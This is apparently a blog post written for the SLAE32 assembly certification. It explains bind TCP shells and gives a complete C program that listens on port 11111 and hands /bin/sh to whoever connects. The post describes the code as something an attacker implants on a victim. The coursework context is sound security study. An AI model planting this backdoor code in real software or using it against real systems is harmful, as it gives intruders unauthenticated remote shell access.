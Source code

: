 ```yaml
---
title: SLAE32 - Assignment#1 [Bind TCP Shell]
author: bigb0ss
date: 2020-12-12 13:26:00 +0800
categories: [SLAE32]
tags: [slae32, assembly, x86, Bind TCP Shell]
image: /assets/img/post/slae32/slae32-transparent.png
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1542

# Assignement #1 
* Create a Shell_Bind_TCP shellcode
	- Binds to a port
	- Execs Shell on incoming connection

* Port number should be easily configurable


# What is a Bind Shell?
Bind TCP opens up a port on the victim system. If an attacker could exploit a vulnerability on the victim system, she can implant a bind shell and connect to it from the remote attaking box. However, due to a firewall and detection controls, reverse TCP shell is preferrable over bind TCP shell thesedays.

![image](/assets/img/post/slae32/assignment1/01.png)

# Bind TCP Shell in C
Before creating our Bind TCP Shell in shellcode, let's better understand the Bind TCP in a higher programming language. We will use `C`:

```c++
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{

	int resultfd, sockfd;
	int port = 11111;
	struct sockaddr_in my_addr;

	// syscall 102
	// int socketcall(int call, unsigned long *args);

	// sycall socketcall (sys_socket 1)
	sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// syscall socketcall (sys_setsockopt 14)
        int one = 1;
        setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &one, sizeof(one));

	// set struct values
	my_addr.sin_family = AF_INET; // 2
	my_addr.sin_port = htons(port);
	my_addr.sin_addr.s_addr = INADDR_ANY;

	// syscall socketcall (sys_bind 2)
	bind(sockfd, (struct sockaddr *) &my_addr, sizeof(my_addr));

	// syscall socketcall (sys_listen 4)
	listen(sockfd, 0);

	// syscall socketcall (sys_accept 5)
	resultfd = accept(sockfd, NULL, NULL);

	// syscall 63
	dup2(resultfd, 2);
	dup2(resultfd, 1);
	dup2(resultfd, 0);

	// syscall 11
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```





















